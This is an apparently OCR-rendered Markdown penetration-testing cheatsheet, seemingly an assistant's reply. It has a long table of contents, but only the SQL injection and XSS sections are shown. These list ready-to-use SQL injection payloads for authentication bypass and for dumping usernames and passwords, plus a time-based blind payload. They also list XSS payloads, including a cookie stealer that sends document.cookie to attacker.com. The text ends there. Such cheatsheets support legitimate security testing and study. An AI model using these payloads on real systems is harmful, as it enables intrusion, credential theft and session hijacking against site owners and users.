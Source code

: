  here are all the cheatsheets in Markdown format, which is easily editable:

**Penetration Testing Cheatsheets**
=====================================

### Table of Contents

* [SQL Injection](#sql-injection)
* [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
* [Remote File Inclusion (RFI)](#remote-file-inclusion-rfi)
* [Local File Inclusion (LFI)](#local-file-inclusion-lfi)
* [Command Injection](#command-injection)
* [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
* [XML External Entity (XXE)](#xml-external-entity-xxe)
* [Server-Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
* [Insecure Direct Object Reference (IDOR)](#insecure-direct-object-reference-idor)
* [File Upload Vulnerabilities](#file-upload-vulnerabilities)
* [Common Linux Commands](#common-linux-commands)
* [Common Windows Commands](#common-windows-commands)
* [Metasploit Commands](#metasploit-commands)
* [Burp Suite Tips and Tricks](#burp-suite-tips-and-tricks)
* [Wireshark Filters](#wireshark-filters)
* [Common Web Application Security Misconfigurations](#common-web-application-security-misconfigurations)
* [Common Cryptographic Attacks](#common-cryptographic-attacks)
* [Common Network Protocols and Their Vulnerabilities](#common-network-protocols-and-their-vulnerabilities)
* [Social Engineering Techniques](#social-engineering-techniques)
* [Common Vulnerability Scanning Tools](#common-vulnerability-scanning-tools)

### SQL Injection
----------------

#### Basic SQL Injection Payloads

* **Bypass Authentication:** `' OR '1'='1' --`
* **Union-based SQLi:** `' UNION SELECT null, username, password FROM users --`
* **Error-based SQLi:** `' AND 1=CONVERT(int, (SELECT @@version)) --`
* **Blind SQLi (Boolean-based):** `' AND (SELECT SUBSTRING(@@version, 1, 1)) = '5' --`

#### Advanced SQL Injection Payloads

* **Extracting Data:** `' UNION SELECT 1, username, password FROM users --`
* **Time-based Blind SQLi:** `' OR IF(1=1, SLEEP(5), 0) --`

### Cross-Site Scripting (XSS)
---------------------------

#### Reflected XSS Payloads

* **Basic Alert:** `<script>alert('XSS')</script>`
* **Cookie Stealer:** `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>`

